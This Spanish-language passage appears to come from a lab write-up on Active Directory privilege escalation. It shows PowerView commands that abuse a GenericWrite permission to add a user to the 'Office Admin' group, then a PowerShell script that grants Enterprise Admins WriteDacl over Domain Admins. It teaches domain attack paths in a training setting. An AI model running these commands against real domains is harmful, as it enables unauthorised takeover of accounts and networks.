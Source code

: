Por lo que se podra explotar ese `GenericWrite` de la siguiente forma.

Esto lo que nos permite hacer es añadir directamente miembros en un grupo, que en este caso seria en el de `Office Admin`.

### Elevacion a grupo Office Admin mediante el permiso GenericWrite

Tendremos que cerrar la consola de `Annice` y volverla abrir como hicimos antes.

```powershell
runas /user:corp\annice.mable /netonly powershell
```

```powershell
cd C:\Users\empleado1\Desktop\
. .\new_powerview.ps1
Add-DomainGroupMember -Identity "Office Admin" -Members annice.mable
```

Y si no nos salio ningun error y ningun resultado significa que fue todo bien, por lo que si vamos al `DC` y vemos si se configuro de forma correcta...

<figure><img src="../../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>

Vemos que esta añadida correctamente, por lo que ya pertenecemos al grupo `Office Admin`.

Como dentro de este grupo hereda los privilegios de `Administradores de empresa` no haria falta que hicieramos nada, pero si llegamos a `Administradores de empresa` para poder llegar a `Admins del dominio` veremos que esta con permisos de `WriteDacl` y vamos a ver como explotar esto, pero si no lo tuvierais asi configurado, se haria de la siguiente forma en el `DC`:

```powershell
# Nombre del grupo que recibirá el permiso
$principal = "Enterprise Admins"

# Distinguished Name del grupo de destino
$targetDN = "CN=Domain Admins,CN=Users,DC=corp,DC=local"

# Obtener ACL del objeto de destino
$acl = Get-Acl -Path "AD:$targetDN"

# Crear el ACE para WriteOwner
$ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule(
    (New-Object System.Security.Principal.NTAccount($principal)), # Grupo destino
    "WriteDacl",                                                  # Permiso específico
    "Allow"                                                       # Acción: Permitir
)

# Agregar el ACE a la ACL
$acl.AddAccessRule($ace)

# Aplicar los cambios a la ACL
Set-Acl -Path "AD:$targetDN" -AclObject $acl
```
